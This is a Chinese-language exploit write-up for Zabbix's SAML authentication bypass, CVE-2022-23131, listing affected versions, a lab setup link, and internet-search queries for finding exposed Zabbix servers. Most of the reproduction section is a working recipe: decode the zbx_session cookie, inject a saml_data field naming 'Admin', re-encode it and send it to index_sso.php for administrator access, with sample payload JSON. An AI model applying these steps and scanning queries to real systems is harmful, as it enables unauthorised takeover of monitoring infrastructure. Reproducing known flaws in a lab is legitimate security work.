

# Zabbix SAML身份绕过漏洞 CVE-2022-23131

## 漏洞描述

Zabbix 是一个基于WEB界面的提供分布式系统监视以及网络监视功能的企业级的开源解决方案。

Zabbix 由两部分构成，Zabbix Server与可选组件 Zabbix Agent。Zabbix Server 可以通过 SNMP、Zabbix Agent、Ping、端口监视等方法提供对远程服务器/网络状态的监视、数据收集等功能，它可以运行在 Linux、Solaris、HP-UX、AIX、Free BSD、Open BSD、OS X等平台上。

在启用 SAML SSO 身份验证（非默认）的情况下，未经身份验证的攻击者可以通过修改Cookie数据，绕过身份认证获得对 Zabbix 前端的管理员访问权限。

## 漏洞影响

```
Zabbix 4.0.36
Zabbix 5.4.0
Zabbix 5.4.8
Zabbix 6.0.0alpha1
```

## 网络测绘

```
app="ZABBIX-监控系统" && body="saml"
```

### Zoomeye

```
title:"ZABBIX"
```

### Shodan

```
title="ZABBIX"
```

## 环境搭建

环境搭建：

- https://github.com/trganda/dockerenv/tree/master/vuln/zabbix/CVE-2022-23131

登录页面



## 漏洞复现

检测该漏洞的主要步骤为：

- 获取 Set-Cookie 数据 zbx_session 参数的值

- 通过 URL 解码和 Base64 解码获得 zbx_session 参数 json 格式数据

- 通过在 json 中添加 saml_data 和 username_attribute 参数后重新 Base64 编码和 URL 编码构造 Payload

- 在请 HTTP 求头中添加构造的 Payload，然后请求 index_sso.php

- 若 HTTP 响应头中包含 Location 头，说明存在漏洞，可直接进入管理界面

获取 Set-Cookie 数据，通过 URL 解码和 Base64 解码，得到如下数据：

```
{"sessionid":"4e733c1344948aba99594418d500ea6f","sign":"njRfEFFQEnQl4F6oQDXxfVF6UYcroMsEPKCB6UzewMCnGQpzpZseaBgGxEzNJOtbMRtwQNKJCqAXccrwc6rxpw=="}
```

构造如下 Payload：

```
{"saml_data":{"username_attribute":"Admin"},"sessionid":"4e733c1344948aba99594418d500ea6f","sign":"njRfEFFQEnQl4F6oQDXxfVF6UYcroMsEPKCB6UzewMCnGQpzpZseaBgGxEzNJOtbMRtwQNKJCqAXccrwc6rxpw=="}
```

在 Burpsuite 中将通过 Base64 编码和 URL 编码后的 zbx_session 参数带入请求 index_sso.php，成功登录。

也可以在浏览器中替换Cookie，点击 SAML登录。


